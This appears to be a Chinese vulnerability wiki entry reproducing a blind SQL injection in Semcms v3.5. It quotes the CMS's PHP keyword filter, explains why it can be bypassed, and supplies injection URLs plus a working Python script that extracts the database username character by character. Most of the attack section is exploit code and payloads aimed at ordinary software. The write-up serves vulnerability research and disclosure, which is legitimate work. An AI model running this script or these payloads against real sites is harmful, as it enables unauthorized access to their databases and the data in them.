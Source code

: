 Semcms v3.5 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Semcms v3.5

三、复现过程
------------

### 漏洞分析

在分析过程中看到网上已经有人发现semcms
V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

    1 <?php
    2 include_once  'Include/web_inc.php';
    3 include_once  'Templete/default/Include/Function.php';
    4 $file_url="";
    5 include_once  'Templete/default/Include/default.php';
    6 ?>
     1 //网站logo
     2 
     3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
     4 
     5 // 控制文字标签 更改 获取的 语种 id
     6 
     7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
     8 
     9 if(!empty($Language)){
    10 
    11       //网站SEO设定
    12 
    13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
    14       $row=mysqli_fetch_array($query);
    15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
     1 // 防sql入注
     2 
     3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
     4  
     5 foreach ($GetArray as $value){ //get
     6     
     7     verify_str($value);
     8   
     9 }
    10 
    11 function inject_check_sql($sql_str) {
    12   
    13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
    14 } 
    15 
    16 function verify_str($str) { 
    17  
    18    if(inject_check_sql($str)) {
    19    
    20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
    21     } 
    22  
    23     return $str; 
    24 }
     1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
     2       $data = str_replace("<script", "", $data);
     3       $data = str_replace("</script>", "", $data);
     4       $data = str_replace("%", "percent", $data);
     5       $data = trim($data);
     6       $data = stripslashes($data);
     7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
     8       return $data;
     9 
    10    }

　　可以看到第16行的函数verify\_str()调用inject\_check\_sql()用来过滤危险字符，函数test\_input用来过滤xss。其中可以明显地看到第11行的函数inject\_check\_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常

![](/Users/aresx/Documents/VulWiki/.resource/Semcmsv3.5sql注入漏洞/media/rId26.png)

    http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误

![](/Users/aresx/Documents/VulWiki/.resource/Semcmsv3.5sql注入漏洞/media/rId27.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

    #用python3版本
    import requests
    url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
    print("Testing url: " + url)
    #十进制数33-126间的ascii hex值
    payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
                "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
                "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
                "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
                "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
                "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
                "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
                "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
                "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
                "0x7b","0x7c","0x7d"
               ]
    user = ""
    for b in range(len(payload)):
        for a in payload:
            #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
            sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
            res = requests.get(url + sql_payload_user).text
            res1 = requests.get(url).text
            if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
                user = user + a
                print(" ")
                print("[*]info : 0x" + user.replace("0x","").upper())
                break
            else:
                print('\r',"Match failed,Next.....",end='')

测试结果如下图

![](/Users/aresx/Documents/VulWiki/.resource/Semcmsv3.5sql注入漏洞/media/rId28.png)

解码ascii
hex值0x726F6F74406C6F63616C686F7374为root\@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

参考链接
--------

> <https://www.cnblogs.com/st404/p/10087191.html>
